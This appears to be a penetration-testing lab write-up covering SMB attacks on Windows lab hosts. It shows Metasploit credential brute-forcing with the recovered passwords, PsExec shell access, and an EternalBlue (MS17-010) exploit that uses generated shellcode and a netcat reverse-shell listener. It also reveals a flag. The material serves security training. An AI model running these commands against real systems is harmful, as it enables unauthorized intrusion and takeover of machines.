 # 🔬SMB - PsExec

## Lab 1

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> - Target IP: `10.4.16.36`
> - **SMB** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
>   

### Enumeration

```bash
ping 10.4.16.36

nmap -sV -sC 10.4.16.36
```

```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2023-03-11T17:43:37
|_Not valid after:  2023-09-10T17:43:37
|_ssl-date: 2023-03-12T17:47:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-12 23:17:49
|_  start_date: 2023-03-12 23:13:37
```

![](.gitbook/assets/image-20230312184902175.png)

> 📌 SMB version 2.02

### SMB Brute-force

- Use Metasploit [smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) module to brute force SMB
  - The brute force success is based on the users and password used.


```bash
msfconsole
```

```bash
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.4.16.36
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

![Metasploit smb_login](.gitbook/assets/image-20230312190418458.png)

```bash
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\sysadmin:samantha'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\demo:victoria'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\auditor:elizabeth'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\administrator:qwertyuiop' Administrator
```

### SMB Exploitation

- Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/))  to get a command prompt on the target machine, with the Administrator account.
  - Using this technique, **no exploit is launched or uploaded on the target system**.
  - It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
psexec.py Administrator@10.4.16.36 cmd.exe
```

 ![psexec.py](.gitbook/assets/image-20230312191210984.png)

- Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.
  - This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msfconsole
search psexec
use exploit/windows/smb/psexec
set RHOSTS 10.4.16.36
set SMBUser Administrator
set SMBPass qwertyuiop
# Make sure the LHOST = your host IP address
exploit
```

![Metasploit psexec](.gitbook/assets/image-20230315154321522.png)

- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`e0da81a9cd42b261bc9b90d15f780433`

![](.gitbook/assets/image-20230312191432614.png)

</details>

------

## Lab 2 - Eternal Blue (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `File Services` role and created a shared folder with the Administrators Group.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> - Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143) + [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](.gitbook/assets/image-20230314175805319.png)

```bash
sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131
```

![sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131](.gitbook/assets/image-20230314181920417.png)

> - 📌 The system is vulnerable to the `CVE-2017-0143`

### Manual Exploitation

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

```bash
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

- Generate a shellcode that will be exploited on the target system.

```bash
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell
```

![./shell_prep.sh](.gitbook/assets/image-20230314183458007.png)

- Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
nc -nvlp 1234
```

- In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

- Check the `netcat` tab for the reverse shell

![Reverse Shell Success](.gitbook/assets/image-20230314184120008.png)

### Automatic Exploitation

```bash
msfconsole
```

```bash
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.31.131
exploit
```

![Metasploit ms17_010_eternalblue](.gitbook/assets/image-20230314184602900.png)

------

